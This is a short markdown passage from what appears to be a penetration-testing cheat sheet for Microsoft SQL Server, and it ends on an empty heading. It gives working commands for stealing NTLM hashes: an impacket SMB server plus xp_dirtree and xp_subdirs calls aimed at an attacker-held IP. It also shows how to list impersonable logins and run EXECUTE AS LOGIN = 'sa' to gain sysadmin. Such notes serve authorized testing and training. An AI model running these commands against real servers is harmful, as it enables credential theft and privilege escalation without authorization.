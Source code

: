 #### XP_SUBDIRS Hash Stealing with impacket
```Shell
impacket-smbserver share ./ -smb2support
```

#### XP_DIRTREE Hash Stealing
```cmd.exe
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```

#### XP_SUBDIRS Hash Stealing
```cmd.exe
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```

### Impersonate Existing Users with MSSQL

#### Identify Users that can be impersonated
```cmd.exe
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

#### Verifying our Current User and Role
```cmd.exe
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
Per Example: As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user. 

#### Impersonating the SA User
```cmd.exe
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
We can now execute any command as a sysadmin as the returned value `1` indicates. To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.

***Note: It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.*

### Communicate with Other Databases with MSSQL

